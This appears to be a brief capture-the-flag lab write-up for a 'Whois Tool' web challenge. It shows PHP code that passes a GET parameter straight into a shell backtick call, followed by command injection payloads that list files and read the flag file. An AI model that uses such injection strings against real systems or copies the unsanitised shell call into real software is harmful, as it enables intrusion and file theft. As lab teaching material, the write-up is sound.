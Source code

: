 # Simple Web - 0x02(Lab - Whois Tool)
###### tags: `CTF` `Web` `eductf`
Challenge: https://whoistool.ctf.zoolab.org/

## Background
Almost the same as [0x10(Lab - DNS Lookup Tool | WAF)](/7x0Gr0C_QEahfS_QaTLYTg)

## Source Code
```php=
<?php
if(isset($_GET["host"])){
  $host = $_GET["host"];
  if(strlen($host) > 15)
    echo "Host name tooooooo logn!!";
  else
    echo `whois "{$host}" 2>&1;`;
}
?>
```

## Exploit
Payload: `";ls -al;"`
![](https://i.imgur.com/MsG3wOH.png)
Payload: `";cat flag.t*;"`
Then we got flag!!!